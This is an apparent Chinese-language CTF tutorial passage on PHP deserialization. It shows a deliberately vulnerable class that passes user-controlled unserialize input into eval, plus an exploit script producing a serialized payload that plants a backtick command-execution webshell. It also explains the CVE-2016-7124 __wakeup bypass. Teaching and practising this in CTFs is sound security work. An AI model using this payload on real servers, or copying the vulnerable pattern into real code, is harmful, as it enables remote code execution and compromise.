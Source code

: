 ### 例题分析

```php
<?php
class test {
    public $cmd;

    function __destruct() {
        eval($this->cmd);
    }
}

unserialize($_GET['u']);
```

`test`类的析构函数`__destruct()`存在代码执行漏洞。需要在本地调试代码，生成所需要的序列化字符串。

- EXP：

```php
<?php
// 类名与题目类名保持一致
class test {
  // 只保留属性，可直接赋值
  public $cmd='?><?=`$_GET[cmd]`;';

  // 不保留方法
}
// 实例化对象
$o = new test;

// 也可通过访问对象属性赋值
// $o->cmd = '';

// 输出序列化字符串，必要时可进行URL编码
echo serialize($o);
// O:4:"test":1:{s:3:"cmd";s:18:"?><?=`$_GET[cmd]`;";}
```

### 练习题

- BUUCTF - [NewStarCTF 2023 公开赛道]Unserialize?

## 常见绕过方法

- `__wakeup()`方法绕过（[CVE-2016-7124](https://www.cve.org/CVERecord?id=CVE-2016-7124)）

```text
When an unexpected object is created, __wakeup() is not invoked during deserialization, which could allow an attacker to bypass __wakeup() and invoke __destruct() with crafted properties.
PHP before 5.6.25 and 7.x before 7.0.10
```

当序列化字符串中表示对象属性个数的值**大于**真实属性个数时会跳过`__wakeup()`的执行
